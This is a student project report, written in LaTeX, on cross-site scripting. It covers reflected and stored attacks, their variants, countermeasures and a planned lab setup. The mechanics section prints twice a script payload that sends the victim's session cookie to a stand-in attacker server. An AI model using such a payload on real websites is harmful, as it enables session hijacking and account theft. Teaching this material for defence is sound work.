\documentclass[11pt]{article}
\makeatletter

\usepackage{comment} % enables the use of multi-line comments (\ifx \fi) 
\usepackage{lipsum} %This package just generates Lorem Ipsum filler text. 
\usepackage{graphicx}
\usepackage{fullpage} % changes the margin

\begin{document}
%%% TO HERE; MAKE CHANGES BELOW. %%%

\noindent
\large\textbf{Final Project Part 2: Deep Dive on Cross Site Scripting} \\  
\normalsize 
\\ \\
\textbf{Eddy Varela \& Sean Fontellio} \\
\normalsize   Due Date: October 27, 2019
\\

\section*{Cross Site Scripting(XSS): Overview}\\

``Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites (OWASP)." The idea behind cross site scripting exploits revolves around careless developers who do not constrain the types of input that can be submitted on various queries. One-form queries are the various input forms that exist on websites. For example, some input forms do not restrict users from inputting HTML or JavaScript code that can be executed on the browser or sent to the server. \\ 

This is a huge vulnerability because if there's a user that inject arbitrary JavaScript into an application then a malicious user can gather legitimate user data and impersonate them. For example, the attacker can construct and send malicious JavaScript code to the server that will exist until the script is removed. Suppose you had an application where people posted things for sale and developers did not sanitize the data that was received. If some hacker realized this, they could potentially craft some JavaScript into the description of the object such that when a user looks at the object for sale, the hacker can gather the victim's session information (cookie that holds the data that identifies the user). The attacker is then able to impersonate this user since they have all the data that identifies that unique user.\\

The severity and flavors of XSS attacks vary. We will analyze the differences between stored and reflected XSS and where these attacks can be carried out (browser or server, often times a combination of both). The consequence of a XSS attack can range from mild user annoyance to complete account compromise as mentioned before. We will proceed to analyze the vulnerabilities, how resources are affected, the difficulty of the attack and outline how to carry out the attack.
\section{Security Assessment: XSS}

Cross Site Scripting (XSS) is a web-based vulnerability related to a website's poor design. Namely, the source code accepts input from a form without checking the type of input received. The input accepted could include malicious scripts that will be executed by default. This web-based vulnerability accepts the attacker’s HTML input generally because the creator of the web page failed to sanitize their inputs; permitting any user to write code (scripts) into their input field. Comment sections of social media sites, blog pages, message boards, and other online mediums through which users can generate content are common targets and locations for such attacks.\\

Through this attack, information that should be confidential about the user, such as their authentication tokens and other data are accessible via cookies are at risk. In this way, the resources are affected in several ways. For example, the user’s information can be stolen or accessed by a third party, confidentiality is no longer maintained. Furthermore, the integrity of the user is affected because the malicious user can impersonate the victim therefore, the site is not integrity protected. Availability of the website is also at risk because the hacker may inhibit the desired content from being displayed through persistent and potentially an endless number of pop-up windows. Non-repudiation is at risk because if the attacker were to do something on the victim's behalf it would be very difficult to differentiate the two.  Additionally, the attacker could utilize the user’s session id (like their unique Facebook API Key), so that their online behavior appears to be someone who it isn’t (i.e. non-repudiation). Thus, this attack affects the resources in all domains [that we’ve covered]. \\

To execute this attack, the hacker must have a server, a vulnerable site, and knowledge of JavaScript to tamper with the (vulnerable) website. It will also help if the attacker has some some background in social engineering to know who's the best target for these types of attacks and what would be the best means to reach the hacker's objective. Although the attack is not too difficult, finding vulnerable websites is non-trivial. XSS is fairly widespread so finding sites that have not sanitized their inputs or secured their websites through others means are hard to find. Writing the script is fairly trivial but remaining discrete can also be another challenge for hackers. Through XSS attacks, a competitor of a particular website could redirect users to their website or damage the reputation of the attacked website/owner, so that the hacker’s website is the one benefiting or gaining traction and funding. The attacker could craft a fake login screen, to extract more personal and financial information from the victim. Hence, the consequences of this attack can be very severe since it is not that challenging to implement and can be conducted without the user or website owner being aware of the attack. \\

History of XSS: In the past, prominent social-networking sites like Twitter, Facebook, MySpace, YouTube and Orkut have been affected by XSS attacks. Since then, XSS flaws have since surpassed buffer overflow vulnerabilities to become the most common publicly reported security vulnerability, with researchers estimating that as many as 68\% of websites are likely open to XSS attacks (MITRE). This attack has been deployed maliciously on the aforementioned sites to spam users, navigate them to pornographic sites, and steal sensitive information. \\

\section{Mechanics of XSS Attack}

XSS attack can occur on the website's server or the browser (or both). We will focus on the main classes of XSS attacks: reflected and persistent (stored) attacks. There exist other attacks like self-XSS, and mutated XSS which are implementations that use both reflected and persistent classes of attacks. We will analyze each in order of sophistication.\\

\textbf {Reflected XSS}

This type of vulnerability occurs when websites reflect the same exact content back to the user on their browser without sanitizing the received data. Sanitization refers to some program logic that ensures that the input data is not malicious. This ambiguity of what can be deemed as malicious is a point of contention that makes XSS prevention quite difficult. One can imagine the realm of inputs is seemingly broad and attackers can exploit this freedom. Many XSS attacks occur when attackers inject malicious JavaScript code causing the site to behave in an unexpected way or secretly gather user data. Thus, sanitization is a non-trivial problem in XSS prevention.\\


In this instance of XSS attacks, the injected script is reflected off the web server through a different format like an alert window, a response page, or an error message. The response may contain some or all of the original content. Reflected attack payload links are delivered to the victims via a secondary channel such as email or another website. When a user clicks on the malicious link and submits a specially crafted form, they execute the malicious code which is then reflects that attack back to the user’s browser. The browser executes the code because it came from a "trusted" source and the attacker would have access to the users information\\

\textbf{How to carry out this attack:} \\
Attacker crafts a URL that gathers the user's cookie information and sends it to the server. The attacker takes advantage that the vulnerable website does not sanitize inputs and is able to send all the plaintext to themselves.\\

Let's analyze this constructed link where we have submitted a search query to a vulnerable-server that tries to open a non-existent image file on the attacker's server and append the victim's cookie that was harvested from the DOM. This url is then sent to ``attacker-server".
\begin{quote}

    http://vulnerable-server.com/q?search=$<$script$>$var+img=new+image();img.src=\\
    "http://attacker-server.com/" + document.cookie;$<$/script$>$
\end{quote}

The attacker is then able to send this crafted URL to the victim via email or some other channel. Then after the user clicks on the link, the attacker is already able to gather the user's cookie information. Usually, the attacker wants to get more information so they may have a crafted form along with the URL such that the attacker can also access user's form data. Namely, the attacker can gather sensitive information about their victim if their victim fills out the form. All of this information is sent over to the attacker because the link points to the attacker's server. In this way, the attacker is able to leverage the site's vulnerability and gather information from the victim without the victim's knowledge. \\


\includegraphics[width = 16cm]{reflected-xss-session-hijack-attack.png}

\textbf{Persistent XSS}\\
Stored or persistent attacks are similar to reflected attacks however, the attacker puts malicious code on the server running the application and takes advantage of the code on the server of the application. The malicious script gets executed when a victim makes a request to server. For example, take our online store example from earlier. Suppose you were selling a very attractive Porsche Panamera for CHEAP. We can assume that this link would capture the attention of many. As a hacker, you realized that whatever content you included on the description is reflected verbatim on this site. Therefore, you created and encoded a link to some pictures in the object description similar to the link above:

\begin{quote}
    http://vulnerable-server.com/q?search=$<$script$>$var+img=new+image();img.src=\\
    "http://attacker-server.com/" + document.cookie;$<$/script$>$
\end{quote}

This link lives in the server in perpetuity (unless the website managers realize this). The listing has malicious code executed every time a user clicks on the link or navigates to the vulnerable part of the website. Furthermore, this is a fairly severe case since the attacker can gather form data and forward it to their hacker servers. Thus, we can see the realm of possibilities are seemingly endless for a hacker. \\


\includegraphics[width = 15cm]{stored-xss-diagram-example.png}\\

\textbf{Variants and implementations of XSS in the wild}\\

\textbf{Self-XSS}: not necessarily a vulnerability of a website that is exploited rather, a user executes malicious JavaScript code on their browser because they are deceived into opening some crafted link. Although not a flaw with XSS this type of attack results in the same types of outcome from regular XSS attacks.\\

\textbf{Mutated XSS}: Attacker injects something that is seemingly safe, but rewritten and modified by the browser. These types of attacks are much harder to detect because the developer code has different outcomes depending on the browser the user is using.\\ 

The fundamental problem with XSS attacks revolves around application code that is not sanitizing inputs/outputs therefore users can enter any kind of content which allows their cookies to be hijacked in the worst case. The consequences of this attack are fairly severe while the resources are seemingly trivial. We believe that this why XSS attacks have become so widespread. \\

\section{Countermeasures}\newline

It seems like the most obvious countermeasure is to properly sanitize the input including encoding checking. Encoding refers to the practice of hacker trying to hide the text that is being checking verifies that a user has not obfuscated the script tags. However, there are some instances where HTML content is actually allowed making this step somewhat more complex (think about writing a blog post on popular sites like Wordpress where you want to bold some text $<$b$>$ Bold text$</$b$>$). In this instance, we must run our content through an HTML sanitization engine such that this content is free from XSS code.\\

More dramatically, the server can redirect all requests that are deemed to be invalid. For example, if a user crafts a URL that is not recognizable a website shows the same standard error page and does not reflect the content anywhere. This prevents hackers from exploiting the websites error reporting mechanism to inject some malicious code. \\

If someone's account has already been compromised, the web maintainers can attempt to prevent more of their users information to be compromised by putting some security barrier that disallows simultaneous logins or logins from different IP addresses. Furthermore, they could invalidate session ID and issue new session ID once the user gives some more information to identify themselves.\\

The website can also choose to only show small amount of confidential information like last 4 digits of credit cards or SSN because if a user can impersonate them, they will have access to all this information without having to necessarily do anything on the victim's site.\\

Finally, the web developers can set cookies with ``HTTPOnly" flags to prevent malicious users from accessing this information from the browser using client side JavaScript.\\

\section{Deliverables}\\

\textbf{Architecture}
For this project we are going to implement a simple web service that is vulnerable to cross site scripting requests. We will also create a malicious server that collects user information.\\


\includegraphics[width = 14cm]{architecture.png}

\textbf{Objective}

We will first implement a stored XSS attack such that we send some malicious script to the server such that it shows an alert if the user travels to the specific webpage. If we can successfully do this, we will want to mount a stored XSS attack such that when a user travels to the page, the script will be executed and the user's cookies will be stolen. We will then attempt to access that user's account by their cookies. For this attack, we will have to build out a fairly robust application that stores users and allows users to add content to the server.


\includegraphics[width = 14cm]{attack.png}

\end{document}
